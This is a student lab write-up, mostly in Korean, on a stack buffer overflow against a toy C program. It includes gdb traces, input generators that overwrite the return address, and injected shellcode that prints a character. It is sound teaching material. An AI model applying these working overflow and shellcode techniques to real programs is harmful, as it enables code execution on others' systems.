

# Buffer Overflow attack

In [02. Flooding](/02.%20Flooding/README.md), we were able to give a long input to break the program. Now we want to make the victim program to run our code. We give an input such that it overflows the return address of the victim program and make it return to the starting location of our input code.

## Exercise

### 1) Change `f2.c` as follows. What is the location of `id[]` inside `gdb`? What is the real location of `id[]` during the execution? How far is `id[]` from the stack location where the return address for `foo` is stored?

`f2.c`:

```c
#include <stdio.h>

void foo(){
   char id[16];
   printf("id location:%p. enter id\n", id);
   scanf("%s", id);
   printf("you entered %s \n", id);
}

int main(){
   foo();
   printf("program ends here\n");
   return 0;
}
```

위와 같이 `f2.c`를 만들어주었다.

```bash
$ gcc -m32 -g -o f2 f2.c
$ ./f2
id location:0xffffd4f0. enter id
777
you entered 777
program ends here
```

`f2.c`를 컴파일하여 실행했을 때, `id`의 location은 `0xffffd4f0`이다.

```bash
$ gdb f2
GNU gdb (GDB) Fedora (7.5.1-38.fc18)
Copyright (C) 2012 Free Software Foundation, Inc.
......
Reading symbols from /home/sec11/12181879/03/f2...done.
gdb$ disassemble main
Dump of assembler code for function main:
   0x080484dd <+0>:	push   %ebp
   0x080484de <+1>:	mov    %esp,%ebp
   0x080484e0 <+3>:	and    $0xfffffff0,%esp
   0x080484e3 <+6>:	sub    $0x10,%esp
   0x080484e6 <+9>:	call   0x804849c <foo>
   0x080484eb <+14>:	movl   $0x80485c2,(%esp)
   0x080484f2 <+21>:	call   0x8048360 <puts@plt>
   0x080484f7 <+26>:	mov    $0x0,%eax
   0x080484fc <+31>:	leave
   0x080484fd <+32>:	ret
End of assembler dump.
```

`gdb`를 실행하여 `main`의 ASM 코드를 확인하였다.

```bash
gdb$ b *0x080484e6
Breakpoint 1 at 0x80484e6: file f2.c, line 11.
```

`foo` 함수가 시작하는 위치인 `0x080484e6`로 `breakpoint`를 설정하였다.

```bash
gdb$ display $esp
gdb$ display $ebp
gdb$ display $eax
gdb$ display $eip
gdb$ r
Starting program: /home/sec11/12181879/03/f2
[0x002B:0xFFFFD4E0]------------------------------------------------------[stack]
0xFFFFD530 : 00 00 00 00 39 7A 63 B8 - 4F 3F 79 E2 00 00 00 00 ....9zc.O?y.....
0xFFFFD520 : 02 00 00 00 00 60 EC 44 - 00 00 00 00 00 00 00 00 .....`.D........
0xFFFFD510 : 01 00 00 00 01 00 00 00 - 00 00 00 00 02 00 00 00 ................
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
--------------------------------------------------------------------------[code]
=> 0x80484e6 <main+9>:	call   0x804849c <foo>
   0x80484eb <main+14>:	mov    DWORD PTR [esp],0x80485c2
   0x80484f2 <main+21>:	call   0x8048360 <puts@plt>
   0x80484f7 <main+26>:	mov    eax,0x0
--------------------------------------------------------------------------------

Breakpoint 1, main () at f2.c:11
11	   foo();
4: $eip = (void (*)()) 0x80484e6 <main+9>
3: $eax = 0x1
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4e0
```

기본 세팅을 해준 뒤, `r` 명령어로 실행하였다. 이후, `si` 명령어로 `foo` 함수 안으로 들어간 다음, `ni` 명령어로 `lea`가 실행되기 전까지 이동하였다.

```bash
gdb$ ni
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF EB 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 3C 0A D2 44 D0 C3 FF F7 - 00 D4 FF FF 1D 83 04 08 <..D............
--------------------------------------------------------------------------[code]
=> 0x80484a2 <foo+6>:	lea    eax,[ebp-0x18]
   0x80484a5 <foo+9>:	mov    DWORD PTR [esp+0x4],eax
   0x80484a9 <foo+13>:	mov    DWORD PTR [esp],0x8048594
   0x80484b0 <foo+20>:	call   0x8048350 <printf@plt>
--------------------------------------------------------------------------------
5	   printf("id location:%p. enter id\n", id);
4: $eip = (void (*)()) 0x80484a2 <foo+6>
3: $eax = 0x1
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
gdb$ ni
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF EB 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 3C 0A D2 44 D0 C3 FF F7 - 00 D4 FF FF 1D 83 04 08 <..D............
--------------------------------------------------------------------[ObjectiveC]
0xffffd4c0:	""
--------------------------------------------------------------------------[code]
=> 0x80484a5 <foo+9>:	mov    DWORD PTR [esp+0x4],eax
   0x80484a9 <foo+13>:	mov    DWORD PTR [esp],0x8048594
   0x80484b0 <foo+20>:	call   0x8048350 <printf@plt>
   0x80484b5 <foo+25>:	lea    eax,[ebp-0x18]
--------------------------------------------------------------------------------
0x080484a5	5	   printf("id location:%p. enter id\n", id);
4: $eip = (void (*)()) 0x80484a5 <foo+9>
3: $eax = 0xffffd4c0
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
```

`eax`를 살펴보면 `0x1`에서 `lea` 명령어가 실행된 후 `0xffffd4c0`로 바뀐 것을 알 수 있다.
그러므로 `id`의 location은 `0xffffd4c0`이다.

- 정리해본다면,
  - 실행파일을 실행했을 때, `id`의 location은 `0xffffd4f0`이다.
  - `gdb`에서의 `id`의 location은 `0xffffd4c0`이다.
- 이 둘의 차이는 `0x30`이다. (십진수 : 48)
- `gdb`가 디버깅을 위해 환경변수를 추가하기 때문에 실제 주소와 다르게 나오게 된다.

### 2) Make an attack input file, `attack-inp2`, so that this program repeats "enter id" twice.

`foo` 함수의 주소는 `0x804849c` 이다.

`f2.c`에서 `id`의 크기를 16 bytes로 정의하였기 때문에, 컴파일러는 실행 시 `id`의 크기를 24 bytes로 잡는다.

return address를 바꾸려면 앞에 있는 `ebp` 위로 가야하기 때문에 28 bytes의 문자 길이를 가져야 한다.

따라서 `inp-write2.c`를 아래와 같이 만들었다.<br>
`inp-write2.c`:

```c
#include <stdio.h>
#include <string.h>
int main(){
char buf[200];
        // assume we need 17 bytes to reach return address
        strcpy(buf, "abcdefghijklmnopqrstuvwxyzAB"); // 28 bytes
        // and we overwrite return address
        // with the address of foo (assume it was 0x0804849c)
        buf[28]=0x9c;
        buf[29]=0x84;
        buf[30]=0x04;
        buf[31]=0x08;
        write(1, buf, 32); // write to file number 1 which is the screen.
        return 0;
}
```

주소의 길이까지 합쳐서 총 32 bytes를 `f2`에 적어주었다.

그 후, `foo`의 시작 주소로 return 하도록 하여 "enter id"를 두 번 출력하게 바꿔주었다.

```bash
$ gcc -o inp-write2 inp-write2.c
$ ./inp-write2 > attack-inp2
$ xxd attack-inp2
0000000: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
0000010: 7172 7374 7576 7778 797a 4142 9c84 0408  qrstuvwxyzAB....
$ ./f2 < attack-inp2
id location:0xffffd4f0. enter id
you entered abcdefghijklmnopqrstuvwxyzAB�
id location:0xffffd4f4. enter id
you entered efghijklmnopqrstuvwxyzAByzAB
세그멘테이션 오류 (core dumped)
```

### 3) Make an attack input file, `attack-inp3`, that contains attack code using `inp-write3.c` below. Attack `f2` with this input file. `f2` should execute the injected code and prints `a`. The return address in `inp-write3.c` should be changed appropriately. You also need `-z execstack` option when compiling `f2.c` to allow executable stack. The `scanf()` in `f2.c` stops reading bytes when it sees a whitespace (`0x09`, `0x0a`, `0x0b`, `0x0c`, `0x0d`, or `0x20`), so make sure your `attack-inp` does not contain any of these. Also make sure the address of `id` does not contain null byte (`0x00`) since `inp-write3.c` can't handle it correctly. If it contains any of them, you should change the size of `id[]` to avoid them.

```bash
$ gcc -m32 –o f2 –z execstack f2.c
$ ./f2
id location:0xffffd4f0. enter id
hello
you entered hello
program ends here
```

`inp-write3.c`:

```c
#include <stdio.h>
void main(){
   printf("\x6a\x61");         // push 0x61. to write ‘a’
   printf("\x89\xe6");         // mov esi, esp. buf location
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x04");         // mov al, 0x4  system call number for write()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xb3\x01");         // mov bl,  0x1  file number
   printf("\x89\xf1");         // mov ecx, esi
   printf("\x31\xd2");         // xor edx, edx
   printf("\xb2\x01");         // mov dl, 0x1  num of bytes to write
   printf("\xcd\x80");         // int 0x80. write(1, buf, 1). write 'a' in the screen.
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x01");         // mov al, 0x1  system call number for exit()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xcd\x80");         // int 0x80. exit(0)
   printf("\xf0\xd4\xff\xff"); // ret addr
}
```

```bash
$ gcc -o inp-write3 inp-write3.c
$./inp-write3 > attack-inp3
$ xxd attack-inp3
0000000: 6a61 89e6 31c0 b004 31db b301 89f1 31d2  ja..1...1.....1.
0000010: b201 cd80 31c0 b001 31db cd80 f0d4 ffff  ....1...1.......
$ ./f2 < attack-inp3
id location:0xffffd4f0. enter id
you entered ja��1��1۳��1Ҳ̀1��1�̀����
a$
```



### 4) Modify your code such that it displays 'b' instead of 'a'.

아스키 코드가 61인 'a' 대신에 'b'를 표시해야하기 때문에 기존의 `inp-write3.c`에서 `printf("\x6a\x61");`를 `printf("\x6a\x62");`로 바꿔주었다. ('b'의 아스키 코드는 62이다.)

`inp-write4.c`:

```c
#include <stdio.h>
void main(){
   printf("\x6a\x62");         // push 0x62. to write ‘b’ instead of ‘a’
   printf("\x89\xe6");         // mov esi, esp. buf location
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x04");         // mov al, 0x4  system call number for write()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xb3\x01");         // mov bl,  0x1  file number
   printf("\x89\xf1");         // mov ecx, esi
   printf("\x31\xd2");         // xor edx, edx
   printf("\xb2\x01");         // mov dl, 0x1  num of bytes to write
   printf("\xcd\x80");         // int 0x80. write(1, buf, 1). write 'a' in the screen.
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x01");         // mov al, 0x1  system call number for exit()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xcd\x80");         // int 0x80. exit(0)
   printf("\xf0\xd4\xff\xff"); // ret addr
}
```

```bash
$ gcc -o inp-write4 inp-write4.c
$./inp-write4 > attack-inp4
$ xxd attack-inp4
0000000: 6a62 89e6 31c0 b004 31db b301 89f1 31d2  jb..1...1.....1.
0000010: b201 cd80 31c0 b001 31db cd80 f0d4 ffff  ....1...1.......
$ ./f2 < attack-inp4
id location:0xffffd4f0. enter id
you entered jb��1��1۳��1Ҳ̀1��1�̀����
b$
```

### 5) Modify your code such that it displays `ab`.

Explanation about the ASM code in `inp-write3.c`.
It is ASM code for following C code:

```c
        void main(){
             char buf;
             buf='a';
             write(1, &buf, 1);  // display 'a' in file 1, which is the screen.
             exit(0);
        }
```

- `write(x, &buf, n)` can be written in ASM:

  - 1. mov ebx, x ; x is the file number. pass "file number" in ebx
  - 2. mov ecx, &buf ; buf has the data. pass its address in ecx
  - 3. mov edx, n ; n is the number of bytes to write. pass it in edx
  - 4. mov eax, 4 ; system call number for write() is 4. pass system call number in eax
  - 5. int 0x80 ; sytem call interrupt

- `exit(x)` can be written in ASM:
  - 1. mov ebx, x ; x is the exit code. pass "exit code" in ebx
  - 2. mov eax, 1 ; system call number for exit() is 1. pass system call number in eax
  - 3. int 0x80 ; system call interrupt

```c
  // buf='a'; write(1, &buf, 1);
   printf("\x6a\x61");         // push 0x61.  buf='a'. allocate buf in the stack ans store 'a'
   printf("\x89\xe6");         // mov esi, esp. now esi points to buf
   printf("\x31\xc0");         // xor eax, eax. eax will become zero by self-xoring
   printf("\xb0\x04");                   //mov al, 0x4. store system call number for write(). step 4)
   printf("\x31\xdb");                   //xor ebx, ebx. ebx will become zero by self-xoring
   printf("\xb3\x01");                   //mov bl,  0x1. store  file number. step 1)
   printf("\x89\xf1");                   //mov ecx, esi. store buf address in ecx. step 2)
   printf("\x31\xd2");                   //xor edx, edx
   printf("\xb2\x01");                   //mov dl, 0x1. store  num of bytes to write. step 3)
   printf("\xcd\x80");                   //int 0x80. write(1, &buf, 1). write 'a' in the screen. step 5)
   // exit(0);
   printf("\x31\xc0");                   //xor eax, eax.
   printf("\xb0\x01");                   //mov al, 0x1.  system call number for exit(). step 2)
   printf("\x31\xdb");                   //xor ebx, ebx. ebx become zero. pass exit code in ebx. step 1)
   printf("\xcd\x80");                   //int 0x80. exit(0). step 3)
   printf("\x60\xfb\xff\xbf");           // ret addr

```
